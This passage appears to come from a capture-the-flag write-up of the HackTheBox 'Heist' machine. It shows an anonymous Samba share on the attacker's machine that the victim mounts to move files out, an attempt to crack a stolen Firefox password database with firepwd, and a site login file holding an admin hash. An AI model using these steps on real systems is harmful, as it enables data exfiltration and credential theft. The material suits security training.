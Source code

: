 ### Evil-WinRM upload/download
This is the easiest method by far, if you already have an Evil-WinRM session open.
Just use the commands `download` and `upload` to transfer files

### Samba share
In the end this is what I ended up using, create a samba share on your kali machine:
Add this /etc/samba/smb.conf
```conf
 [share]
   path = /opt/share
   browseable = yes
   writeable = yes
   guest ok = yes
```
This will expose a global anonymous share called `share` for the victim to mount.
On the victim it can be mounted via:
```batch
net use \\10.10.14.6\share Y:
```
Which will assign the drive letter Y: to the share, we can now freely exchange files via samba


### Back to cracking the firefox password database
Ok so let's run firepwd:
```
kali@kali:/opt/privesc/firepwd$ python3 firepwd.py -d /home/kali/htb/boxes/heist/10.10.10.149
globalSalt: b'971c06f78c138b575cc8c2b401c4881412f946fb'
 SEQUENCE {
   SEQUENCE {
     OBJECTIDENTIFIER 1.2.840.113549.1.12.5.1.3 pbeWithSha1AndTripleDES-CBC
     SEQUENCE {
       OCTETSTRING b'b79dbe20d1dc325c6b42874a5cef544f6724a6f5'
       INTEGER b'01'
     }
   }
   OCTETSTRING b'daf206eab1546f82390820b11c2c0675'
 }
entrySalt: b'b79dbe20d1dc325c6b42874a5cef544f6724a6f5'
b'a551c2f0ad5e86c8cfbab87b1caef049'
password check? False
```
It does look like it found some stuff, but I'm was not sure I need a master password to decrypt it?
I quickly wrote a tool to run firepwd with all the passwords we found so far:
```sh
while IFS= read -r line; do python3 /opt/privesc/firepwd/firepwd.py -p $line; done < cisco-passwd.txt
```
This did not really help though, same output for all of them. The only other thing that I could find was the hashing algorithm used for it, which is "PBEWithSHA1AndDESede"

This seemed like a rabbit hole so let's find other infos

### Looking around
I decided to look into the IIS directory, where we know that a login.php file exists (annoyingly 'Chase' is not allowed to list directories in inetpub...)
```php
C:\inetpub\wwwroot> type login.php
<?php
session_start();
if( isset($_REQUEST['login']) && !empty($_REQUEST['login_username']) && !empty($_REQUEST['login_password'])) {
        if( $_REQUEST['login_username'] === 'admin@support.htb' && hash( 'sha256', $_REQUEST['login_password']) === '91c077fb5bcdd1eacf7268c945bc1d1ce2faf9634cba615337adbf0af4db9040') {
                $_SESSION['admin'] = "valid";
                header('Location: issues.php');
```